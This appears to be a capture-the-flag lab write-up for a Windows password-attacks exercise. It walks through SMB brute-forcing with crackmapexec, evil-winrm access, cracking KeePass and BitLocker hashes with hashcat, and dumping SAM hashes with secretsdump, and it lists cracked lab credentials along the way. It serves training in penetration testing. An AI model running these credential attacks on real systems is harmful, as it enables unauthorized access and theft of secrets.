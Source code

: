johanna:1231234!
david:gRzX7YbeTcDG7

# Password Attacks Lab - Hard

Examine the third target and submit the contents of flag.txt in C:\Users\Administrator\Desktop\ as the answer. 

- Initiating brute force with resouces
`crackmapexec smb 10.129.x.x -u johanna -p password.list --shares`
Result:
  - johanna:1231234!
  - Discovery of share david not accessible by johanna
- connecting to the user using evil-winrm `evil-winrm -i 10.129.x.x -u johanna`
- navigating found out a keepass file.
- download, extract and decode the hash using `keepass2hash Logins.kdbx > login.hash`
result: Qwerty7!
- initiating a rdp session using `xfreerdp /v:10.129.x.x /u:johanna /p:1231234!`
- discovered Key password manager, login successful
result: `david:gRzX7YbeTcDG7`
- with the credentials trying to access the smb david share previously discovered. Login success
- Discovered file Backup.vhd trying to download it.
- Error encountered while downloading
![Alt text](error_smb.png)
- using xfreerdp to connect attack box as a drive to johanna
`xfreerdp /v:10.129.x.x /u:johanna /p:1231234! /drive:linux,/tmp/`
- from the RDP connection opening file explorer and mapping the smb drive with david's credentials
- then copying directly to the attack box through the rdp connection
- stripping the hashes of the vhd file
- Using the first hash to crack.
`grep "bitlocker\$0" backup.hashes > backup.hash`
- cracking the hash
`hashcat -m 22100 backup.hash mut_password.list -o backup.cracked`
Result: 123456789!
- Mounting the drive to linux machine
  
  ```shell
  ## inserting the nbd module into the kernel

  sudo modprobe nbd
  sudo qemu-nbd -c /dev/nbd0 Backup.vhd

  # Using cryptsetup to decrypt the drive

  sudo cryptsetup bitlkOpen /dev/nbd0p2 backup
  sudo mkdir /mnt/mydrive
  sudo mount /dev/mapper/backup /mnt/mydrive
  ```

- Discovered SAM and SYSTEM files
- Extract hashes using `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL`
- Discovered hash, decrypting it using hashcat
`sudo hashcat -m 1000 e53d4d912d96874e83429886c7bf22a1 mut_password.list`
Result: `Adminitrator:Liverp00l8!`
- Go to destination path and view the flag.